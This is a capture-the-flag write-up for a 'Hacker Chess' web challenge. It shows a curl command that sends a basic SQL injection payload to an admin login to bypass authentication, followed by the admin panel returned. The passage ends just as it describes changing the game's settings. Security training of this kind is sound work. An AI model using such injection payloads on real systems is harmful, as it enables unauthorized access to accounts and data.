

# Episode 0: Challenge 1

## Description

> A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.
> 
> Hint: Don't make this game harder than it needs to be. 

A link to an online chess game was attached.

## Solution

The link leads us to an online chess game called "Hacker Chess". In this game we can compete with the computer. 
If it's not hard enough to win as-is, at some point the computer suddenly starts cheating by turning all of its pawns into queens!

On the bottom left corner of the screen, we have a link to the "Master Login":

```html
<div style="display: flex; width: 50%; justify-content: right;"><a style="color: white;" href="admin.php">Master Login</a></div>
```

It's protected by a username and password:

```html
	<form method="post">
		username: <input type="text" name="username"><br>
		password: <input type="password" name="password"><br>
		<input type="submit">
	</form>
```

Luckily, the most basic SQL injection can bypass it:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP000]
└─$ curl 'https://hackerchess-web.h4ck.ctfcompetition.com/admin.php' -X POST --data-raw 'username=admin&password=%27+or+%27%27%3D%27' -L -c cookiejar

<html>
<head>
        <title>Secret Admin Panel</title>

<!-- ... --->

</head>
<body>


        <h1>Change config of the Chess AI!</h1>
                <form method="POST">
                Thinking Time: <input type="number" name="thinking_time" value=""><br/>
          AI Queen Cheats: <input type="radio" id="cheats_enabled" name="cheats_enabled" value="1"> <label for="cheats_enabled">Yes</label> <input type="radio" id="cheats_enabled" name="cheats_enabled" value="0"> <label for="cheats_enabled">No</label><!-- Currently set to:  -->
                <input type="submit">
        </form>
        </body>
</html>
```

In the admin panel, it looks like we can limit the computer's thinking time AND disable cheats. So, we provide a negative thinking time to force the computer to make rash decisions and disable the cheats, making it much easier to beat the AI:

